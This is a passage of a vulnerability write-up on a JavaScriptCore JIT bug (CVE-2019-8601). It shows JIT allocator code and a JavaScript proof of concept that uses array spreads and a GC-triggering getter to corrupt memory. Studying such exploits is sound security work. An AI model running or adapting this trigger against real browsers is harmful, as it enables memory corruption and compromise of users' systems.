 ```c++
    else {
        move(resultGPR, scratchGPR);
        sub32(Address(allocatorGPR, LocalAllocator::offsetOfCellSize()), scratchGPR);
    }
    negPtr(resultGPR);
    store32(scratchGPR, Address(allocatorGPR, LocalAllocator::offsetOfFreeList() + FreeList::offsetOfRemaining()));
    Address payloadEndAddr = Address(allocatorGPR, LocalAllocator::offsetOfFreeList() + FreeList::offsetOfPayloadEnd());
    addPtr(payloadEndAddr, resultGPR);

    done = jump();
        
    popPath.link(this);
        
    loadPtr(Address(allocatorGPR, LocalAllocator::offsetOfFreeList() + FreeList::offsetOfScrambledHead()), resultGPR);
    xorPtr(Address(allocatorGPR, LocalAllocator::offsetOfFreeList() + FreeList::offsetOfSecret()), resultGPR);
    slowPath.append(branchTestPtr(Zero, resultGPR));
        
    // The object is half-allocated: we have what we know is a fresh object, but
    // it's still on the GC's free list.
    loadPtr(Address(resultGPR), scratchGPR);
    storePtr(scratchGPR, Address(allocatorGPR, LocalAllocator::offsetOfFreeList() + FreeList::offsetOfScrambledHead()));
        
    done.link(this);
}
```

According to the `BadAccess11`'s [wp](https://github.com/BadAccess11/CVE-2019-8601), that's the reason why the jit function bails out. The solution is that add  callback at the last `spread`, which add a small `Array`. In this case it will trigger `gc`, and the jit code won't go to the `slow path` again, the poc is shown as below:

```js
const MAX_ITERATIONS = 0x2000;

function foo(arr, helper)
{
    return [...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...helper]
}

let arr = [1.1];
for(let i=0; i<MAX_ITERATIONS; i++) {
    foo(arr, arr)
}

let evil_arr = new Array(0x2000001)                                                                  

evil_arr.fill(1.1)

let helper = [];
helper.length = 1;

helper.__defineGetter__(0, () => {
    let x = new Array(0x10);
})

foo(evil_arr, helper);

```